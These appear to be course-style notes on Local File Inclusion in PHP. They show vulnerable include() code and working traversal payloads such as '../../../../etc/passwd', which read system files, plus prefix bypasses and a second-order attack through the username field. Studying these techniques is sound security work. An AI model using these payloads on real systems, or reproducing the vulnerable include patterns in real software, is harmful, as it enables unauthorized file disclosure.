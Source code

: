 ## Basic LFI
URL has es.php for the language parameter

```URL
http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd
```
- /etc/passwd on Linux
- C:\Windows\boot.ini on Windows


## Path Traversal
The above example works for this code:
```php
include($_GET['language']);
```

However, many developers prepend a string to the language parameter,
```php
include("./languages/" . $_GET['language']);
```
- So, if we type /etc/passwd, it would be ./languages//etc/passwd which does not exist.

Solution:
```
../../../../etc/passwd
```


## Filename Prefix
Developers will also use a prefix, for example
```php
include("lang_" . $_GET['language']);
```
- If we use ../../../etc/passwd, then the final string would be lang_../../../etc/passwd

Solution:
```
/../../../etc/passwd
```
- Prepend a forward slash to make lang_ be treated as a directory


## Appended Extensions
```php
include($_GET['language'] . ".php");
```
- If we use /etc/passwd, then it would be /etc/passwd.php, which does not exist.


## Second-Order Attacks
If we are allowed to download our avatar from /profile/$username/avatar.png, then we can change our username to ../../../etc/passwd and grab it instead of our avatar

